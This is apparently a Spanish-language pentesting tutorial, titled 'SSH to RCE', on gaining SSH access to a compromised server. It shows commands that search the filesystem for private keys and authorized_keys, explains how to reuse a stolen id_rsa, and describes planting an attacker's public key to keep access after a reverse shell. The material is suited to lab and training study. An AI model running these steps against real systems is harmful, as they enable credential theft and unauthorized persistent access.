 # SSH TO RCE

- [[#LECTURA DE ID_RSA|LECTURA DE ID_RSA]]
- [[#MODIFICACION DEL AUTHORIZED_KEYS|MODIFICACION DEL AUTHORIZED_KEYS]]


## LECTURA DE ID_RSA

Es posible que con un LFI, XSS, un SQLi u otro ataque puedas leer el id_rsa de un usuario del servidor. O simplemente por FTP.

puedes conectarte a SSH con usuario y contraseña o proporcionando la llave privada. Normalmente cuando se crean las llaves ssh con el comando:

```
ssh-keygen
```

Esto crea dos llaves RSA una publica y otra privada:

- id_rsa: clave privada.
- id_rsa.pub: clave publica.

Y normalmente se puede encontrar una o ambas en las siguientes rutas:

```
/home/username/.ssh/id_rsa
~/.ssh/id_rsa
```

donde username es un usuario del sistema. (pueden comprobar en el /etc/passwd).

o buscarlo:

```bash
find / -name authorized_keys 2> /dev/null

find / -name id_rsa 2> /dev/null
```

Si lo consigues y puedes ver el contenido dice que tipo de clave es tambien:

![private key](https://raw.githubusercontent.com/kriko69/Pentesting/master/hacking_web/images%20ssh%20to%20rce/1.png)

Lo pasamos a nuestro equipo de atacante y le asignamos el siguiente permiso:

```
chmod 600 id_rsa
```

supongamos que es la id_rsa del usuario pepito, ahora nos podemos conectar al servidor usando su id_rsa **(siempre y cuando esa id_rsa se encuentre en la carpeta de authorized_keys)**:

```
ssh pepito@10.10.10.123 -i id_rsa -p 22
```

## MODIFICACION DEL AUTHORIZED_KEYS

O quizas hayas conseguido una conexion reversa con un exploit y quieras conectarte por ssh a un equipo.

Puedes generar las llaves RSA de ssh:

```
ssh-keygen
```

puede salir uno de los siguientes mensajes:

```
Generating public/private rsa key pair.
Enter file in which to save the key (/home/username/.ssh/id_rsa):
```

```
/home/username/.ssh/id_rsa already exists.
Overwrite (y/n)?
```

Si elige sobrescribir la clave en el disco, ya **no** podrá autenticar usando la clave anterior. Tenga mucho cuidado al convalidar la operación, ya que este es un proceso destructivo que no puede revertirse.

A continuación, se le solicitará que introduzca una frase de contraseña para la clave. Esta es una frase de contraseña opcional que puede usarse para cifrar el archivo de clave privada en el disco. (Puede dejarlo en blanco)

```
Created directory '/home/username/.ssh'.
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
```

Ahora dispondrá de una clave pública y privada que puede usar para realizar la autenticación. El siguiente paso es ubicar la clave pública en su servidor, a fin de poder utilizar la autenticación basada en la clave SSH para iniciar sesión.

```
Your identification has been saved in /home/username/.ssh/id_rsa.
Your public key has been saved in /home/username/.ssh/id_rsa.pub.
The key fingerprint is:
a9:49:2e:2a:5e:33:3e:a9:de:4e:77:11:58:b6:90:26 username@remote_host
The key's randomart image is:
+--[ RSA 2048]----+
|     ..o         |
|   E o= .        |
|    o. o         |
|        ..       |
|      ..S        |
|     o o.        |
|   =o.+.         |
|. =++..          |
|o=++.            |
+-----------------+
```

Ahora tenemos una clave publica y otra privada, vamos a crear un archivo llamado **authorized_keys**, dentro de la carpeta **.ssh** que es tambien donde estan nuestras llaves, donde vamos a agregar la clave publica. Este archivo va a dejar autorizar a todo aquel que proporcione su clave par (privada) a la hora de autenticarse.

```
touch authorized_keys

cat id_rsa.pub

echo "id_rsa.pub output" > authorized_keys
```

Y con eso deberiamos copiarnos la llave privada a nuestra maquina de atacantes, darle el permiso 600 y autenticarnos:

```
chmod 600 id_rsa

ssh -i id_rsa pepito@10.129.112.108

<enter>

<colocamos el passphrase>
```
